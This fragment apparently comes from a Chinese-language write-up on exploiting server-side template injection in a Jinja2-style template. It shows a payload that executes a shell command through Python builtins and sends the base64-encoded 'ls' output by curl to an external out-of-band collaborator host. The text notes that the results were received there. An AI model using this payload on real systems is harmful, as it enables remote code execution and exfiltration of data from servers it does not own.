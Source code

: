 ![](image-5.png)
可能可以成功执行，但是没有回显
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("curl 9lvtd3vn52wb9txvkqeaw3o1us0jokc9.oastify.com/?rqs=$(ls|base64)").read() }}
```
这里接收到了命令结果
![](image-6.png)